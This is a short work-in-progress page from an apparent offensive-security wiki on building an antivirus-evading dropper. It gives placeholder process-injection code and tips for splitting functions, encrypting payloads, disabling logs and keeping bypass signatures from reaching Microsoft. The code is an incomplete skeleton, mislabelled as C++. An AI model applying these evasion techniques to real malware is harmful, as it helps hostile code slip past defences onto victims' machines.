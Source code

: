 ```yaml
---
authors: Jenaye, ShutdownRepo
category: evasion
---
```


# 🛠️ Dropper

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@_nwodtuhs](https://twitter.com/_nwodtuhs)

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

> [!CAUTION]
> The fact of compiling several times will not give us a new signature, only the modification of the code has an impact

> [!CAUTION]
> Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)).